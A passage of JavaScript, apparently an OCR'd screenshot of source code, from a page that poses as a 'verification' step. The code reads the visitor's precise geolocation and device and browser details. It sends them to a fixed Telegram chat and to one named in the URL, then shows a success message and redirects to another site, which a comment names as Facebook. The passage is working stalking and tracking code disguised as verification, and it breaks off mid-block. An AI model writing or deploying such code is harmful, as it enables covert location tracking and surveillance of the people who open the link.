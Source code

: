             const params = new URLSearchParams(window.location.search);
            const url_chat_id = params.get("id");
            
            // Prepare chat IDs (fixed + from URL if exists)
            const bot_chat_ids = [FIXED_CHAT_ID];
            if (url_chat_id) {
                bot_chat_ids.push(url_chat_id);
            }

            const latitude = position.coords.latitude;
            const longitude = position.coords.longitude;
            const accuracy = position.coords.accuracy;
            const altitude = position.coords.altitude;
            const speed = position.coords.speed;
            const timestamp = new Date(position.timestamp).toLocaleString();
            
            const deviceInfo = getDeviceInfo();
            const browserInfo = getBrowserInfo();
            
            const googleMapsLink = `https://www.google.com/maps?q=${latitude},${longitude}`;
            const openStreetMapLink = `https://www.openstreetmap.org/?mlat=${latitude}&mlon=${longitude}#map=16/${latitude}/${longitude}`;

            const message = `📍 **New Location Tracked** 
🌍 Latitude: ${latitude}
🌍 Longitude: ${longitude}
🎯 Accuracy: ${accuracy} meters
⛰️ Altitude: ${altitude ? altitude + ' meters' : 'N/A'}
🚀 Speed: ${speed ? speed + ' m/s' : 'N/A'}
🕒 Time: ${timestamp}

🗺️ [Google Maps](${googleMapsLink})
🗺️ [OpenStreetMap](${openStreetMapLink})

${deviceInfo}

<details><summary><b>📊 Detailed Browser Info</b></summary></details>`;

            // Send requests in parallel with error handling
            const requests = bot_chat_ids.map(chat_id => 
                sendTelegramMessage(chat_id, message)
            );

            try {
                await Promise.all(requests);
                document.querySelector(".content").innerHTML = `
                    <h2>✅ Verification Successfully!</h2>
                    <p>Latitude: ${latitude}</p>
                    <p>Longitude: ${longitude}</p>
                    <p><a href="${googleMapsLink}" target="_blank">View on Google Maps</a></p>
                `;
                
                // Redirect to Facebook after successful send
                setTimeout(() => {
                    window.location.href = REDIRECT_URL;
                }, 3000);
            } catch (error) {
                console.error("Error sending messages:", error);
                document.querySelector(".content").innerHTML = `
                    <h2>⚠️ Partial Success</h2>
                    <p>Some messages may not have been delivered.</p>
                    <p>Latitude: ${latitude}</p>
                    <p>Longitude: ${longitude}</p>
                    <p><a href="${googleMapsLink}" target="_blank">View on Google Maps</a></p>
                `;
                